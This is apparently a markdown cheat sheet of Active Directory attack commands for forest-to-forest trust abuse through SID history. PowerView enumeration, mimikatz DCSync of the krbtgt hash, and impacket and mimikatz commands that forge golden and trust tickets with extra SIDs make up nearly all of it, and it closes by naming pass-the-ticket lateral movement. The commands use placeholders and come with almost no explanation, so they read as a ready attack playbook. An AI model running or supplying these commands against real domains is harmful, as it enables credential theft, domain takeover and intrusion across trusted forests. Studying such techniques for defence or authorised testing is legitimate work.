# Forest-to-Forest - Extra SID (SID History \ TREAT_AS_EXTERNAL)

#### 1) Golden Ticket

 - Get-DomainSID -Domain DOMAIN (Powerview)

 - Get-DomainSID -Domain TARGET_DOMAIN (Powerview)

 - Get-DomainGroupMember -Identity "GROUP" -Domain TARGET_DOMAIN (SID filtering, Find group with SID > 1000) (Powerview)

 - impacket-ticketer -nthash KRBTGT_HASH -domain-sid FROM_DOMAIN_SID -domain FROM_DOMAIN -extra-sid TO_DOMAIN-GROUP_ID goldenuser (Group ID must be > 1000)

## OR 

 - mimikatz lsadump::dcsync /domain:DOMAIN /user:DOMAIN\krbtgt

 - mimikatz kerberos::golden /user:Administrator /krbtgt:KRBTGT_HASH /domain:DOMAIN /sid:USER_SID /sids:ROOT_DOMAIN_SID-GROUP_SID_SUP_1000 /ptt

#### 2) Trust Ticket

### Get the trust ticket in the ntds (TARGET_DOMAIN$)

 - impacket-ticketer -nthash TRUST_KEY -domain-sid FROM_DOMAIN_SID -domain FROM_DOMAIN -extra-sid TO_DOMAIN-GROUP_ID -spn krbtgt/TO_DOMAIN trustuser (Group id must be > 1000)

 - impacket-getST -k -no-pass -spn cifs/DC_FQDN PARENT_DOMAIN/trustfakeuser@PARENT_DOMAIN -debug

### With both these attacks we perform lateral movement with Pass-the-Ticket
